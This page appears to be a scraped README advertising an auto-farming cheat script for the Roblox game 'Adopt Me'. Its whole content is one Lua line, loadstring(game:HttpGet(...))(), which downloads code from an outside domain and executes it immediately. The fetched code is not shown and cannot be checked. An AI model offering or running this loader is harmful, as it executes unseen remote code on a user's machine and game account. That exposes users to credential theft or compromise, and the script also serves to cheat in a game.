 # adopt-me-auto-farming-script-for-galactic-event
loadstring(game:HttpGet("https://egorikusa.space/ec30cd036d9a7ca29e047e74.lua", true))()
